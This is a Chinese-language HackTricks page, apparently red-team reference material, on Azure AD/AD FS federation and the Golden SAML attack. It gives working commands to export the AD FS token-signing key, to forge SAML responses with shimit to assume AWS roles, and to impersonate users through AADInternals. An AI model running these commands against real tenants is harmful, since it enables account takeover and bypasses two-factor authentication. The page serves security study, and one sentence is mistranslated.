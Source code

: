 # Az - 联合

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**联合**是一组建立了**信任**的**域**集合。信任级别可能有所不同，但通常包括**身份验证**，几乎总是包括**授权**。典型的联合可能包括一些已经为**共享访问**建立了**信任**的**组织**。

您可以将您的**本地**环境**与Azure AD联合**，并使用此联合进行身份验证和授权。这种登录方法确保所有用户**身份验证发生在本地**。此方法允许管理员实施更严格的访问控制级别。可用的联合方式包括与**AD FS**和PingFederate的联合。

<figure><img src="../../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

基本上，在联合中，所有**身份验证**发生在**本地**环境中，用户可以通过使用他们的**本地凭据**在所有受信任的环境中体验SSO。因此，用户可以通过使用他们的**本地凭据**访问**云**应用程序。

**安全断言标记语言（SAML）**用于在提供者之间**交换**所有身份验证和授权**信息**。

在任何联合设置中，有三方：

* 用户或客户端
* 身份提供者（IdP）
* 服务提供者（SP）

（图片来源：https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps）

<figure><img src="../../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

1. 首先，用户访问一个应用程序（服务提供者或SP，如AWS控制台或vSphere Web客户端）。根据具体实现，此步骤可能被绕过，直接将客户端重定向到IdP（身份提供者）。
2. 随后，SP识别适当的IdP（例如，AD FS，Okta）进行用户身份验证。然后，它创建一个SAML（安全断言标记语言）AuthnRequest并将客户端重定向到所选的IdP。
3. IdP接管，对用户进行身份验证。身份验证后，IdP会生成一个SAMLResponse，并通过用户将其转发给SP。
4. 最后，SP评估SAMLResponse。如果验证成功，表示与IdP建立了信任关系，用户将获得访问权限。这标志着登录过程的完成，允许用户使用服务。

**如果您想了解更多关于SAML身份验证和常见攻击的信息，请访问：**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## 枢纽

* AD FS是基于声明的身份模型。
* "..声明只是关于用户的陈述（例如，名称，身份，组），主要用于授权访问分布在互联网任何地方的基于声明的应用程序。"
* 用户的声明写在SAML令牌中，然后由IdP签名以提供机密性。
* 用户由ImmutableID标识。它是全局唯一的，并存储在Azure AD中。
* ImmutableID存储在本地作为ms-DS-ConsistencyGuid的用户和/或可以从用户的GUID派生。
* 更多信息请参阅[https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Golden SAML攻击：**

* 在ADFS中，SAML响应由令牌签名证书签名。
* 如果证书被泄露，就有可能作为任何同步到Azure AD的用户进行身份验证！
* 就像我们的PTA滥用一样，更改用户的密码或多因素身份验证对我们没有任何影响，因为我们正在伪造身份验证响应。
* 证书可以从具有DA权限的AD FS服务器中提取，然后可以从任何连接到互联网的计算机中使用。
* 更多信息请参阅[https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

**身份提供者（IdP）**生成**SAMLResponse**以授权用户登录的过程至关重要。根据IdP的具体实现，**响应**可能使用**IdP的私钥**进行**签名**或**加密**。此过程使服务提供者（SP）能够确认SAMLResponse的真实性，确保它确实是由受信任的IdP发出的。

可以将其与[黄金票据攻击](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket)进行类比，其中用于验证用户身份和权限的关键（用于黄金票据的KRBTGT，用于黄金SAML的令牌签名私钥）可以被操纵以**伪造身份验证对象**（TGT或SAMLResponse）。这允许冒充任何用户，授予对SP的未经授权访问。

Golden SAML具有一定的优势：

* 它们可以**远程创建**，无需成为所讨论的域或联合的一部分。
* 即使启用了**双因素身份验证（2FA）**，它们仍然有效。
* 令牌签名**私钥不会自动更新**。
* **更改用户密码不会使**已生成的SAML失效。

#### AWS + AD FS + Golden SAML

[Active Directory Federation Services (AD FS)](https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402\(v=msdn.10\))是一项Microsoft服务，促进了受信任的商业合作伙伴之间的**身份信息安全交换**（联合）。它基本上允许域服务与联合中的其他服务提供者共享用户身份。

通过AWS信任受损的域（在联合中），可以利用此漏洞潜在地**获取AWS环境中的任何权限**。攻击需要**用于签署SAML对象的私钥**，类似于黄金票据攻击中需要KRBTGT。访问AD FS用户帐户足以获取此私钥。

执行Golden SAML攻击的要求包括：

* **令牌签名私钥**
* **IdP公钥证书**
* **IdP名称**
* **角色名称（要承担的角色）**
* 域\用户名
* AWS中的角色会话名称
* 亚马逊账户ID

_只有粗体项是必需的。其他项目可以根据需要填写。_

要获取**私钥**，需要访问**AD FS用户帐户**。然后，可以使用诸如[mimikatz](https://github.com/gentilkiwi/mimikatz)之类的工具从个人存储中**导出私钥**。要收集其他所需信息，可以使用Microsoft.Adfs.Powershell snapin，确保您以ADFS用户身份登录：
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
带着所有信息，有可能会忘记一个有效的SAMLResponse，作为你想要冒充的用户使用[**shimit**](https://github.com/cyberark/shimit)**:**
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

### 本地 -> 云
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
也可以创建仅在云中存在的用户的ImmutableID并冒充他们
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF版本的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
